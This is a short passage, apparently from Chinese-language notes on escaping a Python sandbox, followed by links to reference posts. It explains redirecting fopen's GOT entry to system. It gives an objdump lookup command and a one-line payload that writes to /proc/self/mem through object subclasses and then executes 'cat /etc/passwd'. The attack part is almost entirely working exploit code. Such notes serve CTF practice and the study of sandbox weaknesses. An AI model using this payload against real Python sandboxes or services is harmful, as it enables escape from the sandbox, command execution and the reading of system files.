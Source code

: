 把 fopen 的 GOT 改为 system。先用 objdump 查找
```
objdump -R /usr/bin/python | grep -E "fopen|system"
```

```py
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /etc/passwd'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))
```

---

## Source & Reference

- [初探Python沙箱逃逸](https://qianfei11.github.io/2020/04/02/%E5%88%9D%E6%8E%A2Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/)
- [IS-pwn-escape-python沙箱逃逸](https://hitworld.github.io/posts/8722019b/)
- [Python 沙盒](http://dyf.ink/pwn/linux/sandbox/python-sandbox-escape/)

